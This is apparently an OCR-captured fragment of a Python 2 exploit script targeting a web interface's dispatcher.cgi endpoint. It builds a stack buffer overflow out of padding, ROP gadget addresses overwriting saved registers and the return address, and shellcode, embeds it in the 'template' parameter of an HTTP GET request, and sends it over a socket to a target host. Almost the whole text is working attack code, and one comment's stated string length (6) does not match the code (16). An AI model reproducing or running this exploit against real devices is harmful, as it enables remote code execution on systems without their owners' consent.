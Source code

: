 ```
            '\xa0\xaf\xe0\xfe\xa5\x27\x31\x31\xc6\x3a\x9a\x3e\xc2\x3a' + \
            '\xfe\xfe\xfe\xfe'

# Set up overflow variables for ease of use.
# 13 -> length of www string
# 6 -> length of common.js.pdf.gz
padding_to_registers = 'A'* (0x508 - (13 + 16))

s0 = rop3
s1 = rop2
s2 = sleep
s3 = rop6
s4 = rop5
s5 = 'FFFF'
s6 = rop4
s7 = 'IIII'
fp = sleep
ra = rop1

overflow = padding_to_registers + \
           s0 + s1 + s2 + s3 + s4 + s5 + s6 + s7 + fp + ra + \
           shellcode

# Build the URL.
packet = 'GET /dispatcher.cgi?template=common.js.pdf.gz%s HTTP/1.1\r\n' % overflow
packet += 'Host: %s:%d\r\n' % (ip, port)
packet += 'User-Agent: useragent\r\n\r\n'

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((ip, port))
sock.send(packet)
print sock.recv(2048)
sock.close
```




